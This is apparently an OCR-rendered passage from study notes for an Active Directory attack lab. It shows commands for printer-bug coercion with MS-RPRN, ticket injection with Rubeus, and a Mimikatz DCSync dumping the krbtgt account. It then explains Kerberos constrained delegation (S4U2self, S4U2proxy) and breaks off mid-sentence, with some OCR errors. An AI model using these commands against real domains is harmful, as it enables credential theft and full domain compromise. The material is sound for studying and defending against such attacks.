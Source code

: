 ```powershell
.\MS-RPRN.exe \\dc-user-here \\user-from-Poll-Server-Method
```

## <span style="color:lightgreen">Rubeus.exe</span>
### <span style="color:#F1C232">3. Inject the b64 encoded ticket</span>

```powershell
.\Rubeus.exe ptt /ticket:b64-text-goes-here
```

## <span style="color:lightgreen">Invoke-Mimikatz</span>
### <span style="color:#F1C232">4. Perform a DCSync attack against DCORP-DC using the injected ticket</span>

```powershell
. .\Invoke-Mimikatz.ps1
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```

# <span style="color:lightblue">Constrained Delegation</span>

* Constrained Delegation when enabled on a service account, allows access only to specified services on specified computers as a user.
* A typical scenario where constrained delegation is used - A user authenticates to a web service without using Kerberos and the web service makes requests to a database server to fetch results based on the user's authorization.

## <span style="color:lightgreen">Extensions Required</span>
 
* To impersonate the user, Service for User (S4U) extension is used which provides two extensions:
  1. *Service for User to Self (S4U2self)* : Allows a service to obtain a forwardable TGS to itself on behalf of a user.
  2. *Service for User to Proxy (S4U2proxy)* : Allows a service to obtain a TGS to a second service on behalf of a user.

## <span style="color:lightgreen">Detailed Explaination</span>
*Service for User to Self (S4U2self)* : Allows a service to obtain a forwardable TGS
to itself on behalf of a user with just the user principal name without supplying a
password. The service account must have the & TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION — T2A4D UserAccountControl attribute.

*Service for User to Proxy (S4U2proxy)* : Allows a service to obtain a TGS toa
second service on behalf of a user. Which second service? This is controlled by
msDS-AllowedToDelegateTo attribute. This attribute contains a list of SPNs to
which the user tokens can be forwarded. on
